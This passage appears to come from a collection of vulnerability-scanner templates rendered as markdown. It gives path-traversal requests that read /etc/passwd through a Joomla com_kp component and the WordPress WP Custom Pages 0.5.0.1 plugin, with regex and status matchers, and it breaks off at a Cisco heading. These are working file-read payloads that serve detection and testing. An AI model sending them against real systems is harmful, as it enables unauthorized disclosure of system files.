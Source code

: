 - Method - GET

### URL

- {{BaseURL}}/index.php?option=com_kp&controller=../../../../../../../../../../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# WP Custom Pages 0.5.0.1 - Local File Inclusion (LFI)

## Description

- A directory traversal vulnerability in wp-download.php in the WP Custom Pages module 0.5.0.1 for WordPress allows remote attackers to read arbitrary files via ..%2F (encoded dot dot) sequences in the url parameter.
- severity - high
- tags - edb,cve,cve2011,wordpress,wp-plugin,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/wp-custom-pages/wp-download.php?url=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Cisco CUCM, UCCX, and Unified IP-IVR- Directory Traversal
